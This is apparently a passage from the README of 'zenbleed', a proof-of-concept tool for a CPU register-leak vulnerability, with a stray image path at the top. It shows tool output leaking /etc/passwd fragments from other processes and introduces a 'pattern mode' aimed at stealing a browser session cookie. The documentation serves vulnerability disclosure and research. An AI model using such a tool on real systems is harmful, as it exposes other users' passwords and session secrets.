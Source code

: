 For example, a command like `while true; do sort < /etc/passwd > /dev/null; done`.

This should generate some recognizable register throughput, like this:

```
$ ./zenbleed
Thread 0x7f26b92346c0 running on CPU 0
Thread 0x7f26b8a336c0 running on CPU 2
Thread 12: "999:999:systemd "
Thread 12: ":Gnome Display M"
Thread 12: "sr/sbin/nologin "
Thread 12: "ent daemon,,,:/v"
Thread 12: "S daemon,,,:/run"
Thread 12: "System (admin):/"
Thread 12: "sr/sbin/nologin "
Thread 12: "lseAudio daemon,"
Thread 12: "sr/sbin/nologin "
Thread 12: "999:999:systemd "
Thread 12: "sr/sbin/nologin "
Thread 12: "/run/speech-disp"
Thread 12: "sr/sbin/nologin "
Thread 12: "Dispatcher,,,:/r"
Thread 12: "edebian:x:1000:"
Thread 12: "Dispatcher,,,:/r"
Thread 12: "/root:/bin/bash "
Thread 12: "System (admin):/"
Thread 12: "ent daemon,,,:/v"
Thread 12: ":Gnome Display M"
Thread 08: "lseAudio daemon,"
Thread 08: "ent daemon,,,:/v"
Thread 08: "sr/sbin/nologin "
Thread 08: "lseAudio daemon,"
```

This demonstrates that you can read the registers of other processes.

The AVX registers are often used for high performance string processing by
system libraries. This means that very high volumes of sensitive data pass
through them.

##### Advanced Usage

The `zenbleed` tool has multiple options for investigating this vulnerability.

> By default, zenbleed only prints ASCII. If you want to see all values, use
> the option `-a`.

###### Pattern Mode

Pattern mode attempts to automatically reconstruct secrets and passwords.

This works best against software that continuously moves a lot of strings
around, such as web browsers, busy servers, and so on.

For example, imagine that we would like to steal a cookie called `SID` from a
browser session.
